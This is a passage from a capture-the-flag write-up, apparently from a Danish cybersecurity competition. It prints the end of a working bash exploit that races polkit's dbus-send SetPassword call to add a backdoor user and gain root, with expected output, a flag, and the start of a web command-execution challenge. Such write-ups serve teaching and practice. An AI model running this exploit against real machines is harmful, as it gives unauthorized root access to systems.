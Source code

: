 ```bash
# Add the password to /etc/shadow
# Sleep added to ensure there is enough of a delay between timestamp checks
echo "[*] Adding password to /etc/shadow and enabling user"
sleep 1
currentTimestamp=$(stat -c %Z /etc/shadow)
fileChanged="n"
while [ $fileChanged == "n" ]
do 
    dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User$userid org.freedesktop.Accounts.User.SetPassword string:$password string:$passHint 2>/dev/null & sleep $halfTime ; kill $! 2>/dev/null
	if [ $(stat -c %Z /etc/shadow) -ne $currentTimestamp ];then
	    fileChanged="y"
	    echo "[*] Exploit complete!"
	fi
done

echo ""
echo "[*] Run 'su - $userName', followed by 'sudo su' to gain root access"
```

If the script worked, we should get output similar to this:
```
System has not been booted with systemd as init system (PID 1). Can't operate.
Failed to connect to bus: Host is down
[*] Vulnerable version of polkit found
[*] Determining dbus-send timing
[*] Attempting to create account
[*] New user hacked created with uid of 1001
[*] Adding password to /etc/shadow and enabling user
[*] Exploit complete!

[*] Run 'su - hacked', followed by 'sudo su' to gain root access
```

It might take a few tries and tweaking with the half time variable.
Now we can run ``su - hacked`` with the password ``password``. Then we can run ``sudo su`` to become root.

After that we can simply cat the flag: ``cat /home/admin/flag.txt`` and we get our flag!

``DDC{c0ngr4tz-0n-byp4ss1ng-the-c4tz}``

### Kattekillingen
###### 116pts - 19 solves
> Jeg har lavet en hjemmeside hvor man kan prøve sine bash skills af. Jeg har lavet lidt sikkerhed på den, så du kan ikke bare få mine dybeste hemligheder i root mappen, men du skal være velkommen til at prøve min hjemmeside. Ps: hvis du nogensinde får adgang til systemet så skal man være super user.

By quickly running ``nmap`` we discover that there is a port ``8080`` is open.

Here we can see that we can execute a bash command of our choice.
![Kattekilling homepage](/DDC25National/kattekilling.png)
